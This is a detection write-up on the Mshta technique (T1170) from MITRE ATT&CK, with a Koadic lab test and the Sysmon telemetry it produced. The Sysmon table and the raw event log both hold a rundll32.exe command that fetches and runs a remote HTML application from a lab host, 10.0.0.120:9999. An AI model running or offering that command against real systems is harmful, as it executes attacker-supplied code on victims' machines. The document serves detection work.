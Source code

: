 <h1> Tactic: Defense Evasion, Execution
Technique: Mshta (T1170)  </h1>
<h2> From MITRE ATT&CK </h2>

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA). HTA files have the file extension .hta. HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser.                   Adversaries can use mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code.

<h2> Test </h2>

Name  | Description                                       | Reference
----- | --------------------------------------------------| ------------
Koadic| Koadic can use MSHTA to serve additional payloads | [Link to Koadic](https://github.com/zerosum0x0/koadic) 

![Windows7; Koadic](mshta_images/s1.png)
![Windows7; Koadic](mshta_images/s2.png)
![Windows7; Koadic](mshta_images/s3.png)

<h2> Detection </h2>

## Sysmon 

EventID | TaskCategory   | User  | SysmonVersion | Image                            |  Commandline 
------- | ---------------|-------|---------------|----------------------------------| ------------
1       | ProcessCreate  |SYSTEM | 9.1.0         | C:\Windows\System32\rundll32.exe | rundll32.exe hXXp://10.0.0.120:9999/test?FQB8ZFV7H0=d34bf69da4aa4518b984ca90256e2ed6;8PEBJG06VB=;\..\..\..\mshtml,RunHTMLApplication

### Raw Log 

```
<Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
<System>
  <Provider Name="Microsoft-Windows-Sysmon" Guid="{5770385F-C22A-43E0-BF4C-06F5698FFBD9}" /> 
  <EventID>1</EventID> 
  <Version>5</Version> 
  <Level>4</Level> 
  <Task>1</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x8000000000000000</Keywords> 
  <TimeCreated SystemTime="2019-05-07T20:42:20.877679600Z" /> 
  <EventRecordID>160</EventRecordID> 
  <Correlation /> 
  <Execution ProcessID="3044" ThreadID="528" /> 
  <Channel>Microsoft-Windows-Sysmon/Operational</Channel> 
  <Computer>virtualbox-PC</Computer> 
  <Security UserID="S-1-5-18" /> 
  </System>
- <EventData>
  <Data Name="RuleName" /> 
  <Data Name="UtcTime">2019-05-07 20:42:20.877</Data> 
  <Data Name="ProcessGuid">{63B45BB3-EDAC-5CD1-0000-001005E70E00}</Data> 
  <Data Name="ProcessId">2496</Data> 
  <Data Name="Image">C:\Windows\System32\rundll32.exe</Data> 
  <Data Name="FileVersion">6.1.7600.16385 (win7_rtm.090713-1255)</Data> 
  <Data Name="Description">Windows host process (Rundll32)</Data> 
  <Data Name="Product">Microsoft® Windows® Operating System</Data> 
  <Data Name="Company">Microsoft Corporation</Data> 
  <Data Name="CommandLine">rundll32.exe http://10.0.0.120:9999/test?FQB8ZFV7H0=d34bf69da4aa4518b984ca90256e2ed6;8PEBJG06VB=;\..\..\..\mshtml,RunHTMLApplication</Data> 
  <Data Name="CurrentDirectory">C:\Windows\system32\</Data> 
  <Data Name="User">virtualbox-PC\virtualbox</Data> 
  <Data Name="LogonGuid">{63B45BB3-E8E6-5CD1-0000-002053EC0000}</Data> 
  <Data Name="LogonId">0xec53</Data> 
  <Data Name="TerminalSessionId">1</Data> 
  <Data Name="IntegrityLevel">High</Data> 
  <Data Name="Hashes">SHA1=963B55ACC8C566876364716D5AAFA353995812A8</Data> 
  <Data Name="ParentProcessGuid">{63B45BB3-EDAC-5CD1-0000-001085E20E00}</Data> 
  <Data Name="ParentProcessId">2724</Data> 
  <Data Name="ParentImage">C:\Windows\System32\wbem\WmiPrvSE.exe</Data> 
  <Data Name="ParentCommandLine">C:\Windows\system32\wbem\wmiprvse.exe -secured -Embedding</Data> 
  </EventData>
  </Event>
```
